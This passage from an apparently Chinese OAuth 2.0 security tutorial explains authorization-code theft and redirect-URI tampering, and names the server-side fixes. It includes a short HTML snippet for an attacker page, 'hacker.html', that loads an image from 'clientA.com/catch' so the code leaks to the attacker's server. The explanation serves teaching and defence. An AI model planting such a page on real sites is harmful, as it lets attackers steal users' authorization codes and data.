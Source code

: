 ## 授权码失窃

我们举个例子，先来学习授权码失窃这个场景。

如果第三方软件 A 有合法的 app_id 和 app_secret，那么当它去请求访问令牌的时候，也是合法的。这个时候没有任何问题，让我们继续。

如果有一个用户 G 对第三方软件 B，比如极客时间，进行授权并产生了一个授权码 codeB，但并没有对攻击者软件 A 授权。此时，软件 A 是不能访问用户 G 的所有数据的。但这时，如果软件 A 获取了这个 codeB，是不是就能够在没有获得用户 G 授权的情况下访问用户 G 的数据了？整个过程如下图所示。

![img](assets/7d464d5a0c49a77862fef10f77cf057b.png)

**这时问题的根源就在于两点：**

- 授权服务在进行授权码校验的时候，没有校验 app_id_B；

- 软件 B（也就是极客时间）使用过一次 codeB 的值之后，授权服务没有删除这个 codeB；

看到这里，通过校验 app_id_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。

说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是 OAuth 2.0 中因重定向 URI 校验方法不当而遭受到的一种危害。**这种安全攻击类型，就是重定向 URI 被篡改**。

## 重定向 URI 被篡改

有的时候，授权服务提供方并没有对第三方软件的回调 URI 做完整性要求和完整性校验。比如，第三软件 B 极客时间的详细回调 URI 是 https://time.geekbang.org/callback，那么在完整性校验缺失的情况下，只要以 https://time.geekbang.org 开始的回调 URI 地址，都会被认为是合法的。

此时，如果黑客在 https://time.geekbang.org/page/ 下，创建了一个页面  **hacker.html**。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。

```html
<html>
<img src ="https://clientA.com/catch">
</html>
```
